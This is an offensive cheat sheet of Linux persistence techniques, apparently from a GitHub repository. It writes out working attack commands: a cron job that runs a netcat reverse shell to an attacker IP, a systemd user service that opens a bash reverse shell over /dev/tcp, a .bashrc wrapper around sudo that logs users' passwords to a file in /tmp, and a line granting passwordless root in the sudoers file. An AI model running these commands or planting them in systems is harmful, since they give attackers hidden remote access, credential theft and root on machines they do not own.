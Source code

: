 # Linux TTPs:

## One Liner to Add Persistence on a Box via Cron:

```
echo "* * * * * /bin/nc <attacker IP> 1234 -e /bin/bash" > cron && crontab cron
```

On the attack platform: ```nc -lvp 1234```

## Systemd User Level Persistence:

Place a service file in ```~/.config/systemd/user/```

```
vim ~/.config/systemd/user/persistence.service
```

Sample file:

```
[Unit]
Description=Reverse shell[Service]
ExecStart=/usr/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/9999 0>&1'
Restart=always
RestartSec=60[Install]
WantedBy=default.target
```

Enable service and start service:

```
systemctl --user enable persistence.service
systemctl --user start persistence.service
```

On the next user login systemd will happily start a reverse shell.

## Backdooring Sudo:

Add to ```.bashrc```

```bash
function sudo() {
    realsudo="$(which sudo)"
    read -s -p "[sudo] password for $USER: " inputPasswd
    printf "\n"; printf '%s\n' "$USER : $inputPasswd\n" >> /tmp/log13999292.log
    $realsudo -S <<< "$inputPasswd" -u root bash -c "exit" > /dev/null 2>&1
    $realsudo "${@:1}"
```

## One Liner to Add Persistence on a Box via Sudoers File:

```
echo "%sudo  ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```
